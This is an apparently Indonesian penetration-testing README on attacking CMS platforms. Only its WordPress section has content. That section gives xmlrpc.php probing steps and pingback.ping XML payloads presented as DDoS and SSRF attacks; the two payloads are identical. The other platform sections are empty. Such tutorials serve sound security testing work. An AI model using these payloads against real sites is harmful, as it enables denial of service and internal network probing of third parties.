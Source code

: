 # CMS (Content Management System)
## Definisi

Content Management System (CMS) adalah sebuah platform software yang yang memungkinkan pengguna untuk membangun dan mengelola situs web dengan pengetahuan dan sumber daya teknis yang terbatas. Ini memungkinkan pengguna untuk membuat, mengelola, dan memodifikasi konten di situs web dengan Graphic User Interface (GUI) yang membuat interaksi menjadi user friendly tanpa memerlukan pengetahuan teknis apa pun.

## Beberapa Platform yang **Mungkin** rentan akan CMS
1. [Wordpress](https://github.com/rad1zly/penetration-testing/blob/main/Teknik-Serangan/CMS/README.md#teknik-serangan-pada-platform-wordpress)
2. [Adobe Experience Manager](https://github.com/rad1zly/penetration-testing/tree/main/Teknik-Serangan/CMS#teknik-serangan-pada-platform-adobe-experience-manager)
3. [Drupal](https://github.com/rad1zly/penetration-testing/tree/main/Teknik-Serangan/CMS#teknik-serangan-pada-platform-drupal)
4. [Moodle](https://github.com/rad1zly/penetration-testing/tree/main/Teknik-Serangan/CMS#teknik-serangan-pada-platform-moodle)

## Teknik Serangan pada platform Wordpress
Berikut merupakan beberapa *security misconfiguration* yang biasa terjadi pada platform Wordpress beserta *tools* yang bisa digunakan untuk mendeteksi terjadinya kerentanan tersebut. 

### Tool untuk deteksi
1. Wappalyzer
2. WhatRuns
3. BuildWith
4. WpScan

### xmlrpc.php
Ini merupakan kerentanan paling umum pada wordpress, cara mendeteksi kerentanan tersebut adalah sebagai berikut :
* kunjungi site dari ```siteyangdituju.com/xmlrpc.php```
* Mendapatkan pesan error tentang *POST request only*

Kemudian berikut cara melakukan exploitnya:
* Lakukan *intercept* pada *request* dan ubah *method* GET ke POST
* Kemudian masukan payload ini saat POST untuk melihat semua *Method* yang bisa digunakan
    ```
    <methodCall>
    <methodName>system.listMethods</methodName>
    <params></params>
    </methodCall>
    ```
* Lihat apabila ada *method* ```pingback.ping``` pada list yang ditampilkan
* Jika ada *method* diatas maka bisa dilakukan DDoS dengan *payload* berikut:
    ```
    <methodCall>
    <methodName>pingback.ping</methodName>
    <params><param>
    <value><string>http://<IP SERVER ANDA>:<port></string></value>
    </param><param><value><string>http://<ALAMAT HOST YANG DIUJI></string>
    </value></param></params>
    </methodCall>
    ```
* Selain itu juga bisa dilakukan serangan SSRF (Khusus untuk port internal) dengan payload berikut:
    ```
    <methodCall>
    <methodName>pingback.ping</methodName>
    <params><param>
    <value><string>http://<IP SERVER ANDA>:<port></string></value>
    </param><param><value><string>http://<ALAMAT HOST YANG DIUJI></string>
    </value></param></params>
    </methodCall>
    ```

## Teknik Serangan pada platform Adobe Experience Manager

## Teknik Serangan pada platform Drupal

## Teknik Serangan pada platform Moodle

## Author
**[rad1zly](https://github.com/rad1zly)**


